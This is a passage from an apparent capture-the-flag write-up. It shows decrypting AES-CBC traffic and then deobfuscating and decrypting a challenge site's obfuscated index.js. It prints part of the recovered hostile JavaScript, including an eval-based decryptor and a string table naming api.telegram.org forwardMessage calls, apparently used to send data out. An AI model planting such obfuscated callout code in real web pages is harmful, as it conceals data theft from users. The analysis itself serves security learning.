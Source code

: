 Basically, the data in traffic was encrypted by AES-CBC which key and iv were same. It's easy to decrypt just using **CyberChef** (you can do it by yourself):

![image](https://github.com/user-attachments/assets/b1543681-30a1-4d59-a855-298c26399a22)

![image](https://github.com/user-attachments/assets/011b6c63-26de-4cf2-b47b-e849fb99084b)

![image](https://github.com/user-attachments/assets/625d3d49-3c5d-42b9-a809-08b9dfbfa12f)

### Tales for the Brave

This challenge is the greatest in this competition in my opinion. First, accessing the website: 

![image](https://github.com/user-attachments/assets/4cc704ec-01c9-4f13-b150-86825329b9e3)

Inspecting the website, looking at to the source code especially in **index.js**, it's obfuscated:

![image](https://github.com/user-attachments/assets/045728aa-b693-477a-a2d9-dea16ad65226)

You can deobfuscate it by using this [tool](https://deobfuscate.io/). Copying the code and you will get the new one: 

![image](https://github.com/user-attachments/assets/f40efde4-fa23-424c-819d-00968e525dfc)

From here I can extract the value of variable by just using Chrome console: 

![image](https://github.com/user-attachments/assets/d0252ffc-1345-407b-bdee-189cff9cc82d)

You can see it's related to AES and Base64. Next in the part 2 you can get the key and IV to decrypt AES content: 

```js
eval(CryptoJS[_$_9b39[1]][_$_9b39[0]]({ciphertext:CryptoJS[_$_9b39[4]][_$_9b39[3]][_$_9b39[2]](btoa(unescape(".....")))},
CryptoJS[_$_9b39[4]][_$_9b39[3]][_$_9b39[2]](btoa(unescape("..."))),
{iv:CryptoJS[_$_9b39[4]][_$_9b39[3]][_$_9b39[2]](btoa(unescape("....")))}).toString(CryptoJS[_$_9b39[4]][_$_9b39[5]]));
```

![image](https://github.com/user-attachments/assets/e22e06a2-861d-45ef-9452-91f635fe32a5)

![image](https://github.com/user-attachments/assets/bd2fa841-ae10-4077-a5aa-441a23c4bf61)

![image](https://github.com/user-attachments/assets/5e5aa04d-2eb0-4666-81d3-fdbb75aa8b9e)

Decrypt all contents and you will get the another source code:

```js
_$_5975 = ['nZiIjaXAVuzO4aBCf5eQ5ifQI7rUBI3qy/5t0Djf0pG+tCL3Y2bKBCFIf3TZ0Q==',
           's3cur3k3y',
           'Base64', 'enc', 'toString', '', 'join', 'SHA256', 
           '18m0oThLAr5NfLP4hTycCGf0BIu0dG+P/1xvnW6O29g=', // Hash to verify
           'Utf8', 'parse', 'decrypt', 'RC4Drop', 'https://api.telegram.org', 
           'fromCharCode', 'onreadystatechange', 'readyState', 'DONE', 'responseText', 
           'text', 'result', 'log', 'replace', 'location', 'Form submitted!', 
           'GET', 'forwardMessage?chat_id=', '&from_chat_id=', '&message_id=5', 'open', 'send']

function G(r) {
    return function () {
        var r = Array.prototype.slice.call(arguments), o = r.shift();
        return r.reverse().map(function (r, t) { 
            return String.fromCharCode(r - o - 7 - t) 
        }).join('')
    }(43, 106, 167, 103, 163, 98) + 
    1354343..toString(36).toLowerCase() + 
    21..toString(36).toLowerCase().split('').map(function (r) { 
```
